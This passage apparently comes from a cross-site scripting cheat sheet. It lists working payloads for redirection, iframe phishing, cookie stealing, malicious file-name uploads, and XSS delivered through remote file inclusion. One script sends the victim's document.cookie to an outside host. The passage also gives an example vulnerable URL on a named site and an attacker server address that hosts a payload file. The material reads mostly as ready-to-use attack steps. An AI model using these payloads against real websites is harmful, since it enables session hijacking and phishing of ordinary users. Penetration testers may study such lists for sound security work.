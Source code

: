 ## 4. URL Redirection
- Instead of `alert(1)`, use URL redirection.
- If it redirects to `bing.com`, it is vulnerable.
  ```html
  <script>document.location.href="http://bing.com"</script>
  ```
  Example vulnerable URL:
  ```
  http://www.woodlandwordwide.com/wnew.faces/tiles/page/search.jsp?searchkey=<script>document.location.href="http://bing.com"</script>
  ```

## 5. Phishing via XSS
- Instead of `alert(1)`, use an iframe:
  ```html
  <iframe src="http://bing.com" height="100%" width="100%"></iframe>
  ```

## 6. Cookie Stealing via XSS
- Victim's website transfers cookies to the attacker's site:
  ```html
  <script>document.location.href="http://bing.com/p/?page="+document.cookie</script>
  ```

## 7. XSS Through File Uploading
### Method 1:
- The `file_name` parameter is reflecting in the **view-source** (e.g., `abc.jpeg`).
- Attack by injecting scripts into the filename.
- Use **Intruder** with common payloads.

### Method 2:
- Upload a file containing an XSS script.
- Access the file to trigger the payload.

## 8. XSS Through RFI Vulnerability
- If an application has RFI vulnerability, host an XSS script on the attacker's server:
  ```
  http://10.10.11.24/xss.html  # Contains XSS payload
  ```
- Execute via a vulnerable endpoint:
  ```
  http://abc.com/cmn/js/ajax.php?url=http://10.10.11.24/xss.html
  ```

## 9. Self-XSS to Reflected XSS
- Copy the vulnerable **HTML response** from Burp Suite.
- Save it as an HTML file and open it in Firefox.
- Instead of `alert(1)`, use:
  ```html
  document.location.href="http://bing.com"
  ```
- Example:
  ```
  /@213dewf it is reflecting in browser → add XSS script:
  /@213dewf"><script>alert(1)</script>
  ```
